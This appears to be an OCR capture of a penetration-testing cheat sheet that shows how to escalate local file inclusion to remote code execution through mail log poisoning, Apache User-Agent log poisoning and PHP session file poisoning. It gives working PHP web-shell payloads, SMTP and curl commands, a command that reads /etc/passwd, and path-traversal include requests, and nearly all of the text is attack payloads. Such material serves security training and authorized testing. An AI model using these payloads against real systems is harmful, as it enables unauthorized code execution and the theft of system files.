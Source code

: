 ### RCE via Mail
First send an email using the open SMTP then include the log file located at http://example.com/index.php?page=/var/log/mail.
```bash
root@kali:~# telnet 10.10.10.10. 25
Trying 10.10.10.10....
Connected to 10.10.10.10..
Escape character is '^]'.
220 straylight ESMTP Postfix (Debian/GNU)
helo ok
250 straylight
mail from: mail@example.com
250 2.1.0 Ok
rcpt to: root
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
subject: <?php echo system($_GET["cmd"]); ?>
data2
.
```
In some cases you can also send the email with the mail command line.
```bash
mail -s "<?php system($_GET['cmd']);?>" www-data@10.10.10.10. < /dev/null
```
### RCE via Apache logs
Poison the User-Agent in access logs:
```bash
curl http://example.org/ -A "<?php system(\$_GET['cmd']);?>"
```
> Note: The logs will escape double quotes so use single quotes for strings in the PHP payload.

Then request the logs via the LFI and execute your command.
```bash
curl http://example.org/test.php?page=/var/log/apache2/access.log&cmd=id
```


### LFI to RCE via PHP sessions
Check if the website use PHP Session (`PHPSESSID`)
```html
Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
```
In PHP these sessions are stored into `/var/lib/php5/sess_[PHPSESSID]` or `/var/lib/php/sessions/sess_[PHPSESSID]` files
```html
/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";
```
Set the cookie to `<?php system(`'cat /etc/passwd');?`>`
```html
login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php
```
Use the LFI to include the PHP session file
```html
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27
```
